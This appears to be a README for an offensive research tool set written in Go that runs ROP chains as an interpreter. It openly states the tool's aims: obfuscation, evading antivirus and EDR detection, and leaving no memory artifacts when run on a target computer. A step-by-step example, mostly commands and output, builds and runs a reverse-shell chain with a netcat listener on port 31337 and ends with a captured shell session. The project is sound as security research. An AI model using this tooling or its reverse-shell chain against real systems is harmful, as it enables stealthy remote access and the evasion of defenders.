 # ROP interpreter

This directory contains tools that demonstrate implementing a very primitive
interpreter using ROP gadgets in Go. @SeungKang helped a ton with this crazy
idea - thank you :)

In theory, a ROP-based interpreter provides:

- Obfuscation against intent and reverse engineering
- More control over code at runtime (i.e., possible to clear payloads from
  memory / avoid leaving behind artifacts)
- Defense against detection by antivirus / EDR (since we are reusing CPU
  instructions that already exist in the executable's code segment)

## How it works

Users first must define a list of ROP gadgets using a tool like `nasm` and
compile the assembly to binary. The ROP gadgets are then injected into the
`runner` program using the `injector` program. The `runner` will act as an
interpreter, reading a user-defined "unresolved ROP chain" at runtime.

In the real world, the `runner` would be executed on the target computer.
A hacker would pass various unresolved ROP chain payloads through an
authenticated network channel to the runner. Here, the `runner` reads
the chain from the filesystem.

Users define a ROP chain in a human-readable format using a ROP chain source
file. This source file is compiled into a binary blob using the `compiler`
program. The resulting blob consists of the ROP gadgets' offsets that the
interpreter must resolve at runtime.

For example, the following source file produces an "unresolved ROP chain"
that executes the `socket` system call:

```
; socket syscall
g: pop rdi; ret
d: 0x02
g: pop rsi; ret
d: 0x01
g: pop rdx; ret
d: 0x06
g: pop rax; ret
d: 0x29
g: syscall; ret
```

## Tooling

- `runner` - Executes an unresolved ROP chain produced by `compiler`
- `injector` - Injects binary ROP gadgets into `runner`
- `compiler` - Translates a human-readable ROP chain source file into
  a binary, "unresolved ROP chain"

## Example

- Requirements:
  - Debian (x86 64-bit CPU)
  - Go
  - nasm
  - netcat (nc)

In this example, we will compile a ROP chain that uses the ROP gadgets
provided by the `runner` program to execute a reverse shell. The reverse
shell will connect to 127.0.0.1 port 31337.

#### 1. Compile the ROP gadgets

```console
$ mkdir build
$ nasm -f bin -o build/rop-gadgets.bin examples/rop-gadgets.asm
```

Note: ROP gadgets can be examined with objdump like so:

```console
$ objdump -D -M intel,x86-64 -b binary -m i386 build/rop-gadgets.bin
(...)
0000000000000000 <.data>:
   0:	c3                   	ret    
   1:	48 89 e7             	mov    rdi,rsp
   4:	41 5a                	pop    r10
   6:	c3                   	ret
(...)
```

#### 2. Build the runner and inject ROP gadgets

```console
$ go build -o build/runner-orig runner/main.go 
$ go run injector/main.go -t elf -f build/runner-orig -n main.RopRegion -i build/rop-gadgets.bin > build/runner-injected
$ chmod +x build/runner-injected
```

#### 3. Compile the ROP chain

```console
$ go run compiler/main.go -gadgets build/rop-gadgets.bin -src examples/reverse-shell-chain.txt > build/reverse-shell-chain.bin
```

#### 4. Start netcat listener

```console
$ nc -v -l -p 31337
listening on [any] 31337 ...
```

#### 5. Run the ROP chain

Note: We use `-fork` here because the Go program will crash without it.
We *think* the garbage collector interferes with our ROP chain, so we
disable it by forking to a single-threaded process (meaning no other
threads can interfere with our payload's execution).

```console
$ ./build/runner-injected -fork build/reverse-shell-chain.bin
2024/08/25 10:55:09 pc: 0x4a89d7 | pc line: 81 | main: 0x4a87c0 | uncalled: 0x4a8fc0
0xc000093578: 0x4142434445464748
0xc000093580: 0x4a89d7
0xc000093588: 0x51
0xc000093590: 0x18
0xc000093598: 0x4a8fc0
0xc0000935a0: 0xc0000935a0
0xc0000935a8: 0xc0000935a0
(...)
```

#### 6. Check if netcat received a connection

```
connect to [127.0.0.1] from localhost [127.0.0.1] 33130
whoami
user0
```
